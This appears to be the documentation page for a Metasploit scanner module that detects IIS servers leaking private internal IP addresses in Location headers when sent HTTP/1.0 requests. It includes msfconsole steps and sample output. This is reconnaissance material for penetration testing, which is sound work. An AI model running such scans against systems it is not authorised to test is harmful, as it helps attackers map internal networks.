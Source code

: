 ## Vulnerable Application

IIS, under various conditions, may respond to a request for `/`, `/images`, or `/default.htm` with `HTTP/1.0`
with a 300 HTTP response and a location header that contains an internal (192.x.x.x, 10.x.x.x, or 172.x.x.x)
IP address.

## Verification Steps

  1. Install IIS with at least one IP address on a private LAN
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/iis_internal_ip```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should find the internal IP

## Options

## Scenarios

### IIS with SSL

```
msf5 > use auxiliary/scanner/http/iis_internal_ip
msf5 auxiliary(scanner/http/iis_internal_ip) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 auxiliary(scanner/http/iis_internal_ip) > set rport 443
rport => 443
msf5 auxiliary(scanner/http/iis_internal_ip) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 auxiliary(scanner/http/iis_internal_ip) > set verbose true
verbose => true
rmsf5 auxiliary(scanner/http/iis_internal_ip) > run

[*] 2.2.2.2:443     - Requesting GET / HTTP/1.0
[+] Location Header: https://10.1.1.20/home
[+] Result for 2.2.2.2 found Internal IP:  10.1.1.20
[*] 2.2.2.2:443     - Requesting GET /images HTTP/1.0
[*] 2.2.2.2:443     - Requesting GET /default.htm HTTP/1.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
